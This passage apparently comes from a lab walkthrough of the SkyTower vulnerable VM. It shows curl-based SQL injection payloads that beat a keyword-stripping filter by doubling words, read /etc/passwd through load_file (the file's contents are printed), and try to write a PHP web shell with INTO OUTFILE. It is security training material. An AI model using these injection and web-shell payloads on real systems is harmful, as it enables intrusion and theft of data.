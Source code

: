 ```bash SkyTower File Access
$ curl --data "email=foo@bar&password=' or union selecselectt * from (selecselectt 111) as a JOIN (selecselectt 222) as b JOIN (selecselectt load_file('/etc/password')) as c#" http://192.168.137.242/login.php
[snip]
<br><strong><font size=4>Welcome 222</font><br /> </br></strong>As you may know, SkyTech has ceased all international operations.<br><br> To all our long term employees, we wish to convey our thanks for your dedication and hard work.<br><br><strong>Unfortunately, all international contracts, including yours have been terminated.</strong><br><br> The remainder of your contract and retirement fund, <strong>$2</strong> ,has been payed out in full to a secure account.  For security reasons, you must login to the SkyTech server via SSH to access the account details.<br><br><strong>Username: 222</strong><br><strong>Password: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
john:x:1000:1000:john,,,:/home/john:/bin/bash
sara:x:1001:1001:,,,:/home/sara:/bin/bash
william:x:1002:1002:,,,:/home/william:/bin/bash
</strong> <br><br> We wish you the best of luck in your future endeavors. <br> </div> </div></HTML>
```

Reading the `/etc/passwd` revealed that there were no custom shells used for the users that were enumerated previously. O..k.. I also pulled the sources of `login.php` in order to understand what the deal with the filtering was:

```php SkyTower SQL Injection Filtering
$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);
```

And as suspected. :)

One last thing that I tried, really hard, was to get a web shell on the server so that I can further explore the environment. This failed miserably. The closest I was able to get was:

```bash SkyTower webshell fail
$ curl --data "email=foo@bar&password=' or union selecselectt * from (selecselectt 111) as a JOIN (selecselectt 222) as b JOIN (selecselectt '<?php print_r(shell_exec($_GET[cmd])); ?>') as c into outfile '/var/www/shell.php'#" http://192.168.137.242/login.php
There was an error running the query [Can't create/write to file '/var/www/shell.php' (Errcode: 13)]
```
